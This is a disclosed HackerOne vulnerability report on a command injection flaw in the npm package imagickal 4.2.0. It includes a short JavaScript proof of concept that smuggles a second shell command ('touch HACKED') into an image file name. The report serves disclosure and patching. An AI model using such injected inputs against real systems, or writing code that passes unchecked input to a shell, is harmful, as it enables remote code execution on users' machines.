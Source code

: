 # [imagickal] Remote Code Execution

## Report Details
- **Report ID**: 973245
- **URL**: https://hackerone.com/reports/973245
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2020-09-02T15:44:19.192Z
- **Disclosed**: 2021-01-14T08:39:54.544Z

## Reporter
- **Username**: solov9ev
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report `RCE` in `imagickal`
It allows to execute arbitrary commands on the victim's PC

# Module

**module name:** imagickal
**version:** 4.2.0
**npm page:** `https://www.npmjs.com/package/imagickal`

## Module Description

node wrapper for ImageMagick commands

## Module Stats

[42] weekly downloads

# Vulnerability

## Vulnerability Description

Code injection while processing a photo

## Steps To Reproduce:

- Run `npm i imagickal`
- Create and run the following POC index.js:

```javascript
var im = require('imagickal');

im.identify('image.jpg;touch HACKED;').then(function (data) {
  console.log(data);
});
```

- The exploit worked and created the file - `HACKED`

{F973742}

## Patch

Check input before command

# Wrap up

- I contacted the maintainer to let them know: [N]
- I opened an issue in the related repository: [N]

## Impact

Command Injection on `imagickal` module via insecure command

## Attachments
- imagickal_rce.mp4
